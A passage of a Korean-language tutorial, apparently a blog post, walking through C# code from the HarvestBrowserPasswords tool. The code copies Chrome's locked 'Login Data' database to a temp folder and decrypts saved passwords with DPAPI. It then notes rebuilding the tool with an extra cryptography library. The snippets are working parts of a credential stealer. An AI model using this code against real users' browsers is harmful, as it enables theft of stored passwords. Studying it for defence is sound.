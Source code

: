 ```cs
    catch (SQLiteException)
    {
        string tempDatabaseFilePath = Path.GetTempPath() + "Login Data";

        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine($"[-] Unable to access database file. Copying it to temporary location at:\n\t{Path.GetTempPath()}");
        Console.ResetColor();

        File.Copy(databaseFilePath, tempDatabaseFilePath, true);

        connection = ChromeDatabaseConnection(tempDatabaseFilePath);
        ChromeDatabaseDecrypt(connection);

        //The program will maintain a handle to the temp database file despite database connection disposal. Garbage collection necessary to release the temp file for deletion
        GC.Collect();
        GC.WaitForPendingFinalizers();
        File.Delete(tempDatabaseFilePath);
    }
}
```

## 3. 비밀번호를 해독하세요!

이제 DB에서 일반 텍스트로 된 URL과 사용자 이름을 얻었으므로 DPAPI를 통해 암호를 보호 해제 하기만 하면 된다. Unprotect() 함수는 암호화된 바이트 배역, 선택적 엔트로피 값 및 데이터가 암호화 된 범위(CurrentUser 또는 LocalMachine)의 세가지 인수가 필요합니다. 


```cs
//DPAPI Decrypt - Requires System.Security.dll and System.Security.Cryptography
byte[] decryptedBytes = ProtectedData.Unprotect(password, null, DataProtectionScope.CurrentUser);
string decryptedPasswordString = Encoding.ASCII.GetString(decryptedBytes);
```

Browser LoginData 해독된 자격증명을 저장할 수 있는 개체를 만들고, 이 도구는 BrowserLoginData 암호 해독된 로그인 집합에 대해서 새 개체를 생성하고 콘솔이나 파일에 출력하기 위해 목록에 추가합니다. 

```cs
BrowserLoginData loginData = new BrowserLoginData(formSubmitUrl, username, decryptedPasswordString, "Chrome");
ChromeLoginDataList.Add(loginData);
```

원래 [HarvestBrowserPasswords](https://github.com/Apr4h/HarvestBrowserPasswords) 를 사용하면 복호화가 진행 되어야 하지만, 오래된 버전이라서 빌드를 하기 전에도, 에러가 났다.

* 정상 실행 내용
![image](https://user-images.githubusercontent.com/46625602/175468396-5f7e2f8c-b985-4929-bab8-672a896fc907.png)


[HarvestBrowserPasswords](https://github.com/Apr4h/HarvestBrowserPasswords) 의 버전을 실행 시키기 위해서 System.Security.Cryptography.Csp 라는 라이브러리를 추가로 설치해 주었고, 새로 빌드를 진행했다. 

![image](https://user-images.githubusercontent.com/46625602/175466156-a9d5c57c-8ba3-46a6-974c-bd9546e4b4e1.png)
